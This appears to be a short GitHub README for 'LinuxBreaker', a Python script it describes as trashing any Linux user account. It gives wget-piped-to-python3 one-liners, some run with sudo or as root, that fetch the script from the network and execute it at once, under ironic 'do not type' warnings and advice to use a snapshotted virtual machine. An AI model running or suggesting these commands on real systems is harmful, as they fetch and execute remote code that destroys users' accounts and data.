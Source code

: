 # LinuxBreaker
Trashes any user account in Linux*

\*Tested on various accounts on Ubuntu

(Do not) type the following command into bash:

    ~$ wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | python3

Or even worse:

    ~$ sudo wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | python3
    
or

    ~# wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | python3

Try it out on a virtual machine. Make sure you have a recent snapshot.

*watch_linuxbreaker.py* requires pip and python3. *linuxbreaker.py* only requires python3.
